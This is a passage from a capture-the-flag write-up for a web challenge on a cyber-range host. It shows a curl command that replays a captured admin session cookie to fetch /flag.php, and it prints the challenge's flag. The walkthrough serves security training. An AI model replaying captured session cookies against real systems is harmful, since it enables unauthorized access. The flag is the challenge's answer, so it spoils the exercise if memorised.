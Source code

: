 Success! We logged in successfully and we got a cookie called `admin_cookie` with the value of `mlqAAAnjnufewo29838ncbZ`. Now looking back to the login page, we see a "get the flag button", clicking that will redirect us to `http://juliet.virginiacyberrange.net/flag.php`.

So lets see if we can pass in that `admin_cookie` cookie with the GET request to `/flag.php`:
```
┌──(kali㉿kali)-[~]
└─$ curl http://juliet.virginiacyberrange.net/flag.php --cookie "admin_cookie=mlqAAAnjnufewo29838ncbZ"
<html>
<body style=background-color:#f44a41>
flag{r34l_pr0s_juggl3_typ3s}</body>
</html>
```

And we got the flag! Answer:
```
flag{r34l_pr0s_juggl3_typ3s}
```